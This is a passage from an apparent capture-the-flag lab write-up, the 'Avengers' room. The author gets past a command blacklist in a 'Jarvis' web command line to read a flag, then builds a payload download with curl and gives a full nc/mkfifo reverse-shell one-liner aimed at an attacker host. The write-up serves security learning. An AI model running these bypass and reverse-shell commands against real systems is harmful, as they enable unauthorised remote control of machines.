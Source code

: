 views

Jarvis command:

cd ..;ls

Results:

avengers

flag5.txt

After looking around we find the fifth flag (at this point I guessed I was supposed to find at least four flags by now). Cool, let’s see the contents.

cat ../flag5.txt

And we get hit with the same “Command disallowed” error that we got when we tried creating a reverse shell. I immediately started thinking of commands similar to cat such as head and tail, but neither worked. Eventually, I tried less which successfully revealed the contents of the fifth flag.

Now at this point, I didn’t know that I wasn’t supposed to go any further so I kept thinking of ways on how I would get a reverse shell. I tried many commands such as curl, bash, nc, perl, python, and many more commands. I was thinking about how it was possible to get a reverse shell without specifically typing any of these blacklisted strings. I came to the conclusion that if I could echo a string to a text file, and then somehow prepend text to it, then I could create a file that would contain a malicious command. Here is the methodology:

echo ‘url <attacker ip>/rev -o /tmp/reverse\_shell’ > /tmp/malicious\_command

sed -i '1s/^/cu/' /tmp/test     ← prepends the characters cu to /tmp/malicious\_command

chmod +x /tmp/malicious\_command

Content of /tmp/malicious\_command:

curl <attacker ip>/rev -o /tmp/rev

Then, executing /tmp/rev would call the curl command make our malicious file be downloaded to the /tmp directory.

Let’s try this out!

less /tmp/malicious\_command

![](/reports/Avengers/image9.png)

Awesome! Let’s set up a python http server on port 80 with a file called rev. This file can now hold the blacklist nc string as it is not being written to the Jarvis Command Line.

You can try many different reverse shells but I find this particular one to be the most reliable:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker ip> <attacker port> >/tmp/f

Running sudo python3 -m http.server 80 and executing /tmp/malicious\_command we get a hit!

Looking at the content of /tmp we see these files now:

![](/reports/Avengers/image17.png)

Now on our machine let’s listen to the port that we specified in the reverse shell command.
